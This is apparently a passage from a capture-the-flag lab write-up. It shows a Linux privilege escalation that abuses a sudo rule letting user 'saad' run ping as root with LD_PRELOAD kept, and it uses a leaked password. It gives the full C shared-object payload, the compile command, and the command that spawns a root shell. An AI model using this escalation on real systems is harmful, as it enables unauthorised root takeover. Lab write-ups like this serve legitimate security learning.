 We have a password `MyStrongestPasswordYet$4291` for `saad` user, let's try to check permissions with `sudo -l` :

```bash
saad@ip-10-10-193-229:~$ sudo -l
[sudo] password for saad: 
Matching Defaults entries for saad on ip-10-10-193-229:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

User saad may run the following commands on ip-10-10-193-229:
    (root) /usr/bin/ping
```

We can run ping as root.
## PrivESC with LD_PRELOAD

If we search about ping vectors we find an interesting PoC for LD_PRELOAD (notice it's in the path) :

https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/

We can follow the guide :

Let’s generate a C program file inside /tmp directory :

```
saad@ip-10-10-193-229:/$ cd tmp
saad@ip-10-10-193-229:/tmp$ nano shell.c
saad@ip-10-10-193-229:/tmp$ cat shell.c 
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");
}

```

Now let’s compile it to generate a shared object with .so extension likewise .dll file in the Windows operating system and hence type following :

```bash
saad@ip-10-10-193-229:/tmp$ gcc -fPIC -shared -o shell.so shell.c -nostartfiles
shell.c: In function ‘_init’:
shell.c:6:1: warning: implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]
    6 | setgid(0);
      | ^~~~~~
shell.c:7:1: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
    7 | setuid(0);
      | ^~~~~~

saad@ip-10-10-193-229:/tmp$ ls -al shell.so
-rwxrwxr-x 1 saad saad 14760 Jul 30 13:52 shell.so

saad@ip-10-10-193-229:/tmp$ sudo LD_PRELOAD=/tmp/shell.so find
[sudo] password for saad: 
Sorry, user saad is not allowed to execute '/usr/bin/find' as root on ip-10-10-193-229.eu-west-1.compute.internal.
saad@ip-10-10-193-229:/tmp$ sudo LD_PRELOAD=/tmp/shell.so ping
[sudo] password for saad: 
# cat root/root.txt
cat: root/root.txt: No such file or directory
# cd --
```
